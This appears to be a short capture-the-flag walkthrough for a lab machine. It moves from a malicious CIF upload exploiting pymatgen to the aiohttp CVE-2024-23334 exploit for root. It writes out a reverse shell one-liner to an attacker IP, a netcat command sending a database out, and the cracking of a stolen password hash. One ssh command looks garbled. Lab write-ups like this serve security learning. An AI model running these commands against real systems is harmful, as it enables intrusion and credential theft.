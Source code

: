 # User flag

Nmap 

We find port 5000 is open, when we check it on the browser, a website opens

We have an option to register, we register in it

After logging in, we see a upload button, that only accepts cif extensions

Google cif exploits, we get https://github.com/materialsproject/pymatgen/security/advisories/GHSA-vgv8-5cpj-qj2f

Use this along with ```/bin/bash -c \'sh -i >& /dev/tcp/10.10.14.128/1337 0>&1\'``` to get a shell

After searching a bit, we get a database 

Transfer the database over to local device, using

nc IP Port < database.db

In database, we find the password for Rosa, which is in md5 hash

We decode the hash,

User flag is in user.txt

# Root flag

netstat -tuln

Port 8080 is open, which was not included in the initial nmap scan

Port forward 

```bash
ssh -L 8080:localhost:8080 rosa@1rosa@10.10.11.38
```

Now check the headers

We see server is python/3.9 aiohttp/3.91

Search for it's exploit

We get CVE-2024-23334

Execute it

We get the root flag
